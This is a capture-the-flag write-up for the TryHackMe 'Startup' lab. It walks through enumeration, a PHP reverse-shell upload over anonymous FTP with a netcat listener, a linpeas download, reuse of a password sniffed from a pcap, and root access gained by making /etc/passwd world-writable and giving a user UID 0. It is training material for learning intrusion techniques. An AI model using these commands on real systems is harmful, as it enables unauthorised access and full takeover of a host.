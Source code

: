 # THM-Startup
https://tryhackme.com/room/startup

Last CTF (THM - mrrobot) took to much time, mainly because I oweranalyzed things.
This one i´m going to look for the easy solutions.

## Lets go!

## Starting with standard enumeration.
********
### Nmap (top 1000 ports with script scan)
```
nmap 10.10.225.190 -sC
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 

22/tcp open  ssh
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http
|_http-title: Maintenance
```
We get that port 21, 22 and port 80 are open.
Because we used -sC we also get some extra info about FTP.
We can login as Anonumous and the ftp folder is writable.
We also get FTP and SSH server versions.
*************
### Dirbuster

```
dirb http://10.10.96.196 -w /usr/share/wordlists/dirb/common.txt

http://10.10.96.196/index.html
http://10.10.96.196/files/ftp/ 
```
Dirbuster shows that we can access the FTP folder from HTTP, **thats interesting** .
*******
### HTTP
The main web page is just a http file with nothing interesting.<br>
**But if we try the /files folder we get this!**<br>
![image](https://user-images.githubusercontent.com/93491173/216457959-4ac23f3e-f451-4385-82ff-23bda5fc37e2.png)<br>
The /ftp folder is empty.
*******
### FTP
The ftp folder writable, lets see what we can do with that.
We can start to upload pentestmonkey.php reverse shell.
```
ftp Anonymous@IPADRESS
no passwd

cd ftp
ftp> put
local: /home/kali/THM/Startup/Files/pentestmonkey.php remote: pentestmonkey.php
```
That worked fine, and its shows up in the browser.
*********
### Reverse shell
Lets try to get a revers shell running.
```
(local host) nc -nlvp 4444
```
Open the pentestmonkey.php in the web browser, we are connected!
*********
### Spawn a shell thru Python
Now we need a usable shell, let use Python to launch a shell.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
**********
### The secret recipe
Read the file /recipe.txt
```
www-data@startup:/$ 
cat /recipe.txt
Someone asked what our main ingredient to our spice soup is today. 
I figured I can't keep it a secret forever and told him it was ****.
```
**********
### Linpeas (finding a weakness)
2 ways to get the Linpeas script oto the host.
1. 
```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230205/linpeas.sh
chmod +x linpeas.sh
```

```
download to LHOST
start a http server on LHOST
python -m http.server 53

Download to RHOST
cd /tmp
wget http://LHOST-IP:53/linpeas.sh
chmod +x linpeas.sh
```
Now lets run Linpeas
```
www-data@startup:/tmp$ ./linpeas.sh
```
Here we can se a suspicius file **/incidents/suspicious.pcapng**
Transfere the file to the LHOST using the FTP folder.
```
Copy file to HTTP/FTP folder. 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
Dowload the file from: 
http://RHOST/files/ftp/suspicius.pcapng
```
### Wireshark
Start Wireshark and load the suspicius.pcapng <br>
Look for some kind of terminal action. <br>
If we the follow the TCP connection we can se exacly what that user did, and what password he tried to use<br>
![image](https://user-images.githubusercontent.com/93491173/216831507-48ef88e4-9e90-4ca4-8d9b-cfe44d21862c.png) <br>
Right click that row, Follow, TCP connection.<br>
Then we can se this:
```
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: ***********
```
It looks like someone is trying to elevate but are using the wrong command. I think someone is trying to access something in lennies home folder, lets try lennie and that password first.
<br>
```
www-data@startup:/$ su lennie
su lennie
Password: **********
```
Great job, that worked fine.
### user.txt
Now its time to check out that user.txt flag.
```
lennie@startup:/$ cd /home/lennie
cd /home/lennie
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt
cat user.txt
THM{**********}
```
### root(.txt)
Now its time to get access to the /root folder.<br>
In lennies folder there are a script folder.<br>
It contains planner.sh and startup_list.txt. <br>
planner.sh calls $LIST and adds it to plannet_list.txt and then run /etc/print.sh<br>
/etc/print.sh is writable and we can add any command that we want to run as root.<br>
if we add 
```
cat /root/root.txt 
```
we get the flag from root.txt.<br>

If we add this instead:
```
echo 'chmod ugo+rwx /etc/passwd' > /etc/print.sh
```
we will have full access to passwd.<br>
Now we can give our self root access.
```
cat /etc/passwd
```
Use cat output and make a new passwd on LHOST.
```
vi passwd 
change
lennie:x:1002:1002::/home/lennie:
to
lennie:x:0:0::/home/lennie:/bin/bash
[esc] 
:wq
```
This makes him member of root and gives him root access.<br>
Upload the file to RHOST, copy to /etc/passwd.
```
ftp Anonymous@IPADRESS
no passwd

cd ftp
ftp> put
local: passwd remote: passwd
cp /var/www/html/files/ftp/passwd /etc/passwd
```
### Login as root
First you need to logout<br>
And the login with root access
```
exit
www-data@startup:/$ su lennie
lennie
Password: *********
```
### You are now root!
